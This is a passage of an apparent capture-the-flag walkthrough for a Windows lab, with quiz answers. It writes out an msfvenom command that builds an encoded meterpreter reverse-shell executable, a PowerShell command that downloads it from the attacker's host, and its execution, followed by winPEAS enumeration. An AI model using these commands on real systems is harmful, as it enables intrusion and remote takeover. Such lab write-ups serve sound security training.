 `set PAYLOAD windows/meterpreter/reverse_tcp`

`run`

<img src="https://user-images.githubusercontent.com/67650329/193579472-b012553e-9a42-4f4c-a419-f2e766109ab9.png" width="500px" align="center">

<img src="https://user-images.githubusercontent.com/67650329/193579451-c4819d09-7144-43df-bf03-de89b100aea1.png" width="500px" align="center">

Download the shell file. `Use msfvenom`.

-> `msfvenom -p windows/meterpreter/reverse_tcp -a x86 --encoder x86/shikata_ga_nai LHOST={YOUR_IP} LPORT={PORT} -f exe -o shell.exe`

<img src="https://user-images.githubusercontent.com/67650329/193580136-8f28f9f2-8d1d-41ee-b1d7-1f36cf65bfb8.png" width="500px" align="center">

Upload the shell into the machine and run the shell.

`powershell -c wget "http:/{YOUR_IP}/shell.exe" -outfile 'shell.exe'`

`.\shell.exe`

<img src="https://user-images.githubusercontent.com/67650329/193580901-6bb9a72e-8653-4f77-81f8-b94ff0acb7ad.png" width="500px" align="center">

And you can see on your metepreter connected to the machine.

<img src="https://user-images.githubusercontent.com/67650329/193581641-3c214d93-539f-4236-b629-286a05cb1fe8.png" width="500px" align="center">

**What is the OS version of this windows machine?**

**Answer: Windows 2012 R2 (6.3 Build 9600)**

After this. Download the winPEAS first [Click Here](https://github.com/carlospolop/PEASS-ng/releases/tag/20220202)

After you download the winPEAS you must upload the winPEAS into the machine.

<img src="https://user-images.githubusercontent.com/67650329/193582403-b3edd593-7d98-4126-9699-b227ef829c53.png" width="500px" align="center">

Run the shell on metepreter.

`shell`

`winPEAS.exe serviceinfo`

<img src="https://user-images.githubusercontent.com/67650329/193582641-13111704-c26c-4756-a6f3-450198a342cb.png" width="500px" align="center">

Read slowly the winPEAS because is so many information on winPEAS. 

<img src="https://user-images.githubusercontent.com/67650329/193582939-504268be-95d0-411a-a73d-c5fc6b8d33fd.png" width="500px" align="center">

**What is the name of the abnormal service running?**

**Answer: WindowsScheduler**

You can search the another suspicious file.

<img src="https://user-images.githubusercontent.com/67650329/193583431-579f8411-44fc-4901-af14-4954c2f4f145.png" width="500px" align="center">

